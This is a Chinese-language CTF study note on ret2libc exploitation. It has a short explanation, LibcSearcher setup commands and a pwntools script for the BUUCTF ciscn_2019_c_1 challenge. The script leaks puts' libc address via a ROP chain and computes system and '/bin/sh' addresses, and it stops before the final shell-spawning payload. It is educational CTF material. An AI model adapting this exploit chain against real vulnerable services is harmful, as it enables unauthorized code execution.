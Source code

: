 # ret2libc

## 原理

利用栈溢出漏洞，劫持返回地址，利用程序已链接库中的函数，来进行取shel，l不需要注入自定义的 shellcode 或者系统调用指令。需要了解libc和延迟绑定，了解ELF执行后，第一次调用函数，会实现一个延迟绑定当函数没system和"/bin/sh"时，就需要调用libc里面的，首先**找到libc的基地址**，通过已知函数的地址，输出在libc中的地址，来计算基地址

需要Libcsearcher库

```shell
git clone https://github.com/lieanu/LibcSearcher.git
sudo python set-up.py develop
rm -rf Libc-database
git clone https://github.com/niklasb/libc-database.git
./get ubuntu debain
```



## 32位

```

```



## 64位

```python
#题目来自Buuctf ciscn_2019_c_1
from pwn import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
#p = remote('node5.buuoj.cn',28352)
p = process('./ciscn_2019_c_1')
elf = ELF('./ciscn_2019_c_1')
#libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
#gdb.attach(p)

pop_rdi=0x400c83
ret_addr=0x4006b9
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']
#第一次溢出，ROP出puts的真实地址
p.sendlineafter('choice!\n',b'1')
payload = flat('\0',b'A'*0x57,p64(pop_rdi),p64(puts_got),p64(puts_plt),(main_addr))
p.sendlineafter('encrypted\n',payload)
puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) #接收puts地址
puts_addr=u64(p.recvuntil('\n')[:-1].ljust(8,b'\x00'))
########本地libc找地址#########
#libc_put = libc.sym['puts']
#base = puts_addr-libc_put
#libc_system = libc.sym['system']
#system_addr = libc_system
#libc_bin = 0x19604F
#bin_sh = base +libc_bin


#利用LibcSearcher找到地址
libc = LibcSearcher('puts',puts_addr)
base = puts_addr - libc.dump('puts') #基地址
system_addr = base+libc.dump('system')
bin_sh = base+libc.dump('str_bin_sh')
```